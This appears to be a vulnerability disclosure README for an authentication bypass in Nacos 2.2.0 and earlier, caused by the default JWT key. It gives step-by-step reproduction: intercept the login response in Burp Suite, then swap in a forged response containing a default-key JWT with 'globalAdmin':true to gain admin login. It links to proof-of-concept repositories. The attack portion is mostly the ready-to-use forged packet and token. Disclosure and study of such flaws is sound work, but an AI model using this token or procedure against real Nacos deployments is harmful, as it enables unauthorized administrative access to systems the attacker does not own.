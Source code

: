#### Vuln Impact 

An issue has been discovered in Nacos affecting Nacos <= 2.2.0.Nacos users use the default JWT key to cause an unauthorized access vulnerability. Through this vulnerability, attackers can bypass user name and password authentication and directly log in to the Nacos user

#### Vuln Product

Nacos <= 2.2.0 version

#### Vulnerability reappearance

Step 1：Go directly to Nacos website, fill in any user name and password and use Burpsuite to grab the bag.

![login](img/login.png)

Step 2：Intercept the response packet.

![response](img/response.png)

Step 3: Modify the data packet as follows

```javascript
HTTP/1.1 200
Date: Thu, 10 Nov 2022 01:27:16 GMT
Content-Type: application/json
Content-Length: 13
Connection: close
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Content-Security-Policy: script-src 'self'
Server: elb

{"accessToken":"eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTYxODEyMzY5N30.nyooAL4OMdiByXocu8kL1ooXd1IeKj6wQZwIH8nmcNA","tokenTtl":18000,"globalAdmin":true}
```

![new](img/new.png)

Step 4: Log in successfully after releasing the data packet.

![success](img/success.png)


### LINK
- https://github.com/Pizz33/nacos_vul
- https://github.com/atk7r/Nacos-Authentication-Bypass-Poc
- https://github.com/Al1ex/Alibab-Nacos-Unauthorized-Login
